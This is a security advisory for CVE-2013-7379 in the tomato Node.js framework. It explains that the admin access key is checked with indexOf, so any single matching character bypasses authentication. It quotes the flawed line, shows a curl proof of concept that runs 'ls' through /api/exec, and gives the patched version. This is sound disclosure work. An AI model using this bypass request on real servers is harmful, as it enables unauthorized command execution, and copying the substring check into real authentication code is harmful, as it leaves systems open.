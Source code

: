 ```yaml
---
title:  Tomato API Admin Auth Weakness
author:  Adam Baldwin
module_name: tomato
nspid: NSP-2013-1
publish_date: 2013-03-07T21:52:30.192Z
cves: "[{\"name\":\"CVE-2013-7379\",\"link\":\"http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7379\"}]"
vulnerable_versions: "<= 0.0.5"
patched_versions: ">= 0.0.6"
...
```


## Overview
Tomato is a Node.js web framework.

The tomato API has an admin service that is enabled by setting up an access_key in the config options. This access_key is intended to protect the API admin from unauthorized access.

The key is checked by checking to see if the access_key provided in the request is within the configured access_key string, not equal to. So a single character that's within the access key is sufficient to bypass this control.

## Example
This is the snippet of code that does the comparison to authorize requests.

```
if (access_key && config.master.api.access_key.indexOf(access_key) !== -1) {
```

For an access_key that is set to anything that includes the letter 'a' the following request would be authorized.

```
$ curl -X POST "http://localhost:8081/api/exec" -H "Content-Type: application/json" -d @test -H "access-key: a"
{
 "cmd": "ls",
 "path": ".",
 "stdout": "app.js\nconfig.js\nlog\nnode_modules\nserver.js\n",
 "stderr": ""
}
```

## Mitigating factors:

The admin interface is disabled by default. The module author confirmed that the access_key should really be an array of access_keys, however based on variable name and documentation it was not clear that it should be an array. The vulnerability exists only if a string access_key is set.

Module version 0.0.6 has been updated to ensure an array of keys is provided as well as documentation updates.



